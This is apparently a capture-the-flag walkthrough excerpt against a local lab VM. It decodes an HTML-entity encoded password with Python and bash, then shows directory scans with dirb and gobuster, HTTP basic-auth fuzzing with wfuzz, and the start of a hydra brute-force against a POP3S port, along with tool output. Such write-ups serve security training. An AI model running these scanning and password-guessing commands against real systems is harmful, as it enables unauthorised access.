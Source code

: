 ### python

```python
s = [73,110,118,105,110,99,105,98,108,101,72,97,99,107,51,114]
for e in s:
    print(chr(e),end='')

# InvincibleHack3r
```
### bash

```bash
# for d in $(echo -n '&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;' | tr -d '&#' | tr ';' '\n'); do printf \\$(printf "%o" $d); done && echo
InvincibleHack3r

```



# Scan dir


Naviagate to /sev-home/ to login

```bash
$ dirb  http://192.168.56.101/sev-home/ -u boris:InvincibleHack3r -X .php
gobuster dir -u http://192.168.56.101/sev-home/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --username boris --password  InvincibleHack3r -x php,txt

$ wfuzz -c -w users.txt -w passwords.txt --basic FUZZ:FUZ2Z -u http://192.168.56.101/sev-home --hc 401
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.101/sev-home
Total requests: 20

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000008:   301        9 L      28 W       316 Ch      "boris - InvincibleHack3r"
Total time: 0
Processed Requests: 20
Filtered Requests: 19
Requests/sec.: 0



└─$ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3s://192.168.56.101 -s 55006
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-14 22:10:31
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
```